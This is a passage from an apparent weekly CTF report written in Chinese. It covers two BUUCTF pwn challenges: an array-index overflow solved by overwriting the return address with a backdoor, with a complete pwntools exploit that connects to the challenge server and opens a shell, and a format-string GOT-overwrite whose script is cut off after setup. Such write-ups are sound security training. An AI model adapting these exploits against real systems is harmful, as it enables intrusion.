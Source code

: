 # week6
## 1.BUUCTF-wustctf2020_name_your_cat
数组溢出 没有检查数组的边界

<img width="660" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/31e438f9-e4c0-4e29-aa91-78872ab5cf80">

计算好偏移溢出覆盖返回地址为后门函数即可

<img width="299" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/5105f48a-c2e1-44c3-b75c-be50a4acae57">

### exp_wustctf2020_name_your_cat.py
```python
from pwn import *
# p = process("./wustctf2020_name_your_cat")
p = remote("node4.buuoj.cn",27681)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

shell_addr = 0x80485CB
offset = 7

for i in range(5):
	ru('>')
	sl(str(offset))
	ru('Give your name plz: ')
	sl(p32(shell_addr))

shell()
```

## 2.BUUCTF-axb_2019_fmt64
无限制格式化字符串利用

<img width="380" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/292e03bd-6b40-4153-aa05-8e60d9c09970">

泄漏libc 覆盖printf_got为one_gadget 需要注意的就是构造格式化字符串写时要注意之前写入的字符个数

### exp_axb_2019_fmt64.py
```python
from pwn import *
# p = process("./axb_2019_fmt64")
p = remote("node4.buuoj.cn",25285)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/mnt/hgfs/ubuntu/BUUCTF/source/ubuntu16/libc-2.23-64.so")


r = lambda : p.recv()
```
